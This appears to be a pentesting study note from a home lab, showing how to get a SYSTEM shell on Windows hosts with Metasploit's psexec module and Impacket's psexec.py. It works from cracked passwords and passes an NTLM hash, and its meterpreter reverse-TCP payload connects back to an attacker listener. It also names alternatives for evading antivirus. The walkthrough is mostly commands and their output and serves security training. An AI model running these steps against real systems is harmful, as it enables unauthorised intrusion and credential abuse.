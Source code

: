 
Once we have [[SMB Relay|captured some hashes]] and [[LLMNR Poisoning|cracked some passwords]] using different attacks, we can utilise them to gain shell access on a machine.

### Metasploit

We can use the `psexec` module available in metasploit to gain a shell as follow. ^shellAccess

```bash
msf6 > use exploit/windows/smb/psexec
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
```

This will default to use the payload `windows/x64/meterpreter/reverse_tcp`. However, since we are attacking a `x64` machine, we will have to configure the correct payload.

```bash
msf6 exploit(windows/smb/psexec) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/psexec) > options

Module options (exploit/windows/smb/psexec):

   Name                  Current Setting  Required  Description
   ----                  ---------------  --------  -----------
   SERVICE_DESCRIPTION                    no        Service description to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                   no        The service display name
   SERVICE_NAME                           no        The service name
   SMBSHARE                               no        The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read/write folder share


   Used when connecting via an existing SESSION:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   no        The session to run this module on


   Used when making a new connection via RHOSTS:

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   RHOSTS                      no        The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      445              no        The target port (TCP)
   SMBDomain  .                no        The Windows domain to use for authentication
   SMBPass                     no        The password for the specified username
   SMBUser                     no        The username to authenticate as


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.23.133   yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic
```

Now we need to set the following options: `RHOSTS`, `SMBDomain`, `SMBUser`, `SMBPass` (obtained [[LLMNR Poisoning#^437ee9|here]])

```bash
msf6 exploit(windows/smb/psexec) > set RHOST 192.168.23.131
RHOST => 192.168.23.131
msf6 exploit(windows/smb/psexec) > set SMBDomain MARVEL.local
SMBDomain => MARVEL.local
msf6 exploit(windows/smb/psexec) > set smbuser fcastle
smbuser => fcastle
msf6 exploit(windows/smb/psexec) > set smbpass Password1
smbpass => Password1
```

We can check out targets from `show targets`. In some cases the *Automatic* option might fail. In those cases, either pick *PowerShell* or *Native upload*

```bash
msf6 exploit(windows/smb/psexec) > show targets 

Exploit targets:
=================

    Id  Name
    --  ----
=>  0   Automatic
    1   PowerShell
    2   Native upload
    3   MOF upload
    4   Command
```

#### Attacking NTLM local user

We can use the hashes from the [[SMB Relay#^c05678|SAM dump]] we extracted through the [[SMB Relay]] attack. Since we are not attacking a user in a domain, we can unset it as well.

```bash
msf6 exploit(windows/smb/psexec) > set SMBUSER administrator
SMBUSER => administrator
msf6 exploit(windows/smb/psexec) > unset SMBDomain 
Unsetting SMBDomain...
```

If we look at the hashes we dumped, there are two parts. The **LM** part and the *NT* part.

Administrator:500:**aad3b435b51404eeaad3b435b51404ee**:*7facdc498ed1680c4fd1448319a8c04f*:::

We can set the SMBPass as the combined NTLM hash and run the exploit.

```bash
msf6 exploit(windows/smb/psexec) > set SMBPASS aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f
SMBPASS => aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f
msf6 exploit(windows/smb/psexec) > run
[*] Started reverse TCP handler on 192.168.23.133:4444 
[*] 192.168.23.131:445 - Connecting to the server...
[*] 192.168.23.131:445 - Authenticating to 192.168.23.131:445 as user 'administrator'...
[*] 192.168.23.131:445 - Selecting PowerShell target
[*] 192.168.23.131:445 - Executing the payload...
[*] Sending stage (177734 bytes) to 192.168.23.131
[+] 192.168.23.131:445 - Service start timed out, OK if running a command or non-service executable...
[*] Meterpreter session 6 opened (192.168.23.133:4444 -> 192.168.23.131:65011) at 2025-03-04 16:21:58 +1100
```

Even though this hash was dumped from the user `pparker`, since `fcastle` also has the same password the resulting hashes will be the same. Hence, the attack succeeds on `fcastle`.

### psexec.py

We can do this manually instead of using Metasploit by running the script `psexec.py`.

```bash
$ python psexec.py MARVEL/fcastle:'Password1'@192.168.23.131
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on 192.168.23.131.....
[*] Found writable share ADMIN$
[*] Uploading file TEpiyToQ.exe
[*] Opening SVCManager on 192.168.23.131.....
[*] Creating service UObv on 192.168.23.131.....
[*] Starting service UObv.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.19045.5487]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```


We can do the same with a hash as well.

```bash
$ python psexec.py administrator@192.168.23.131 -hashes aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on 192.168.23.131.....
[*] Found writable share ADMIN$
[*] Uploading file bGhyEGQv.exe
[*] Opening SVCManager on 192.168.23.131.....
[*] Creating service dBmV on 192.168.23.131.....
[*] Starting service dBmV.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.19045.5487]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

If `psexec` is not working for some reason such as an anti-virus detection, there are two other identical options that can be used: `wmiexec.py` and `smbexec.py`.

